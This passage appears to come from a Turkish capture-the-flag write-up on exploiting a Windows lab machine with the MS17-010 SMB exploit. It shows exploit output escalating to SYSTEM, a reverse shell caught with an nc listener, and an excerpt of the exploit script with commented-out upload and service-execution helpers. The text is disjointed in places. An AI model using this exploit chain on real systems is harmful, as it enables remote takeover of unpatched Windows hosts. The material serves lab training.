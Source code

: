 FLINK: 0xfffff8a00264f048
InParam: 0xfffff8a00283a15c
MID: 0xd07
unexpected alignment, diff: 0x-1ebfb8
leak failed... try again
CONNECTION: 0xfffffa8001c3d8f0
SESSION: 0xfffff8a0019ee2a0
FLINK: 0xfffff8a002850088
InParam: 0xfffff8a00284a15c
MID: 0xe03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Sending file BI8O95.exe...
Opening SVCManager on 10.10.10.40.....
Creating service mIfk.....
Starting service mIfk.....
The NETBIOS connection with the remote host timed out.
Removing service mIfk.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

Sondan altıncı satırda, “ Servis Başlatılıyor” yazan yerde, nc'de bir bağlantı alıyorum:

```
oxdf@parrot$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.40] 49162
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

)
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
```

"Bu, exploit ile gerçekleştirilen eylemdir. Bu durumda, herhangi bir değişiklik yapılmadan (mod olmadan), hedef sistemde **C:\pwned.txt** dosyasını oluşturuyor. Ancak yorum satırına alınmış (commented out) kodlar, bu dosyadaki fonksiyonların hedef sisteme dosya yüklemek (**smb_send_file**) ve bir servis olarak komut çalıştırmak (**service_exec**) için nasıl kullanılabileceğini gösteriyor.
